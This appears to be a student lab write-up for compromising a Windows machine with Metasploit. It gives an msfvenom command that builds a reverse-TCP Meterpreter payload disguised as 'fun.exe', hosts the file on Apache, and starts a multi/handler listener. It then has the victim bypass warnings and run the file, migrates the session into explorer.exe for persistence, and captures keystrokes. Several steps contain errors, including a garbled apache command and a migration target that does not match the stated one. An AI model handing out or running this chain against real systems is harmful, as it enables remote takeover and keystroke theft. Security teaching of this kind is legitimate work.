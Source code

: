 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## PROGRAM:

Find the attackers ip address using ifconfig
## OUTPUT:
![Screenshot 2025-04-07 110001](https://github.com/user-attachments/assets/8cde1e5a-5319-4f72-81c4-9f09f8204798)




Create a malicious executable file fun.exe using msenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
## OUTPUT
![Screenshot 2025-04-07 111202](https://github.com/user-attachments/assets/a5850360-7890-4b7d-b3bf-f84f7eec2f96)





copy the fun.exe into the apache /var/www/html folder
![Screenshot 2025-04-07 115010](https://github.com/user-attachments/assets/f556dedd-f7d9-47bc-b786-0d2017262af3)



Start apache server
sudo systemctl apache2 start

![Screenshot 2025-04-07 115019](https://github.com/user-attachments/assets/f8a3a5db-f3a1-4089-865b-bf898995674f)



Check the status of apache2
![Screenshot 2025-04-07 115108](https://github.com/user-attachments/assets/e5f1d4d7-126a-4b09-b6ef-eb06a680981f)




Invoke msfconsole:
## OUTPUT:




Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.


Starting a command and control Server
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
exploit
![Screenshot 2025-04-07 115214](https://github.com/user-attachments/assets/ea384ca5-6c96-405e-9b45-b23f4e9fab41)




On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:
http://192.168.1.2/fun.exe
The file "fun.exe" downloads. 
![8](https://github.com/praveenst13/Compromising-windows-using-Metasploit/assets/118787793/4cf82361-ac00-46ab-92a2-3f09592d98d5)


Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit
![8](https://github.com/praveenst13/Compromising-windows-using-Metasploit/assets/118787793/fee0700e-bafd-4e76-af72-f5ac23a5d6ba)


To see a list of processes, at the meterpreter > prompt, execute this command:
ps  ⇒ can see the fun.exe process running with pid 1156

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost.
To become more persistent, we'll migrate to a process that will last longer.
Let's migrate to the winlogon process.
At the meterpreter > prompt, execute this command:

migrate -N explorer.exe
at meterpreter > prompt, execute this command:
netstat
A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.
Notice the "PID/Program name" value for this connection, which is redacted 
![ss](https://github.com/praveenst13/Compromising-windows-using-Metasploit/assets/118787793/b2d36ca1-64a2-4863-a648-4ef4a8727dd9)



Post Exploitation
The target is now owned. Following are meterpreter commands for key capturing in the target machine
keyscan_start	Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
![9](https://github.com/praveenst13/Compromising-windows-using-Metasploit/assets/118787793/85fb473c-59fe-4042-b163-552fddc735d1)



keyscan_dump	Shows the keystrokes captured so far
![10](https://github.com/praveenst13/Compromising-windows-using-Metasploit/assets/118787793/785ef849-9095-4065-b38a-54b544a0c440)



## RESULT:
The Metasploit framework for reconnaissance is  examined successfully
